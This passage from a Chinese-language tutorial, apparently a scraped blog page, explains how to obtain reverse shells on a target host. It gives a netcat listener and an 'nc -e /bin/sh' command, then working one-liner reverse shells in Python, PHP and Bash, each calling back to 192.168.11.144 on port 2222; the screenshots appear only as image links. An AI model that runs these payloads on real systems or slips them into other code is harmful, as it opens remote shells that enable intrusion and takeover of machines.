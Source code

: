 命令： nc -lvp  Target_Port
 
![][24]
 
目标主机：
 
命令： nc  Targert_IP Targert_Port  -e /bin/sh
 
![][25]
 
### 特殊情况——目标主机上没有Netcat，如何获取反向shell
 
在一般情况下，目标主机上一般都是不会有Netcat的，此时就需要使用其他替代的方法来实现反向链接达到攻击主机的目的，下面简单的介绍几种反向shell的设置。
 
 **python反向shell** 
 
目标主机端执行语句：
 
``` v
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.11.144",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
 
本地主机
 
![][26]
 
目标主机
 
![][27]
 
 **PHP反向shell** 
 
目标主机端执行语句：
 
``` v
php -r '$sock=fsockopen("192.168.11.144",2222);exec("/bin/sh -i <&3 >&3 2>&3");'
```
 
本地主机：
 
![][28]
 
目标主机：
 
![][29]
 
 **Bash反向shell** 
 
目标主机端执行语句：
 
``` v
bash -i>＆/dev/tcp/192.168.11.144/2222 0>＆1
```
 
本地主机：
 
![][30]
 

[0]: https://img1.tuicool.com/zmY7ji6.jpg 
[1]: https://img1.tuicool.com/2iA3MzA.jpg 
[2]: https://img0.tuicool.com/zQN3qqr.jpg 
[3]: https://img1.tuicool.com/6VnIRnf.jpg 
[4]: https://img2.tuicool.com/rayUZrI.jpg 
[5]: https://img1.tuicool.com/zeQVbqA.jpg 
[6]: https://img0.tuicool.com/ZzQJJjB.jpg 
[7]: https://img1.tuicool.com/VbU3IfI.jpg 
[8]: https://img1.tuicool.com/amaayuj.jpg 
[9]: https://img1.tuicool.com/YbMFz2Z.jpg 
[10]: https://img0.tuicool.com/Fn2Ijq3.jpg 
[11]: https://img2.tuicool.com/EZf6jq2.jpg 
[12]: https://img1.tuicool.com/aiaUJvb.jpg 
[13]: https://img1.tuicool.com/vY3UVb2.jpg 
[14]: https://img0.tuicool.com/YrmAnyJ.jpg 
[15]: https://img1.tuicool.com/FvANzaM.jpg 
[16]: https://img1.tuicool.com/AvE7Vbz.jpg 
[17]: https://img1.tuicool.com/7fAF7rz.jpg 
[18]: https://img0.tuicool.com/mmMR3ia.jpg 
[19]: https://img2.tuicool.com/eq6z6vV.jpg 
[20]: https://img0.tuicool.com/imy2Uny.jpg 
[21]: https://img0.tuicool.com/eARVV3n.jpg 
[22]: https://img0.tuicool.com/MnIVzy6.jpg 
[23]: https://img2.tuicool.com/rArYfea.jpg 
[24]: https://img0.tuicool.com/fYZzEzB.jpg 
[25]: https://img1.tuicool.com/Y7FZNfI.jpg 
[26]: https://img2.tuicool.com/meiaaiV.jpg 
[27]: https://img2.tuicool.com/73ERri3.jpg 
[28]: https://img0.tuicool.com/i2Aneqy.jpg 
[29]: https://img2.tuicool.com/YRveauf.jpg 
[30]: https://img2.tuicool.com/Vjayym3.jpg 
[31]: https://img1.tuicool.com/V3auuej.jpg 
[32]: https://img0.tuicool.com/aUZBbuF.jpg 
[33]: https://img0.tuicool.com/aIVbeyI.jpg 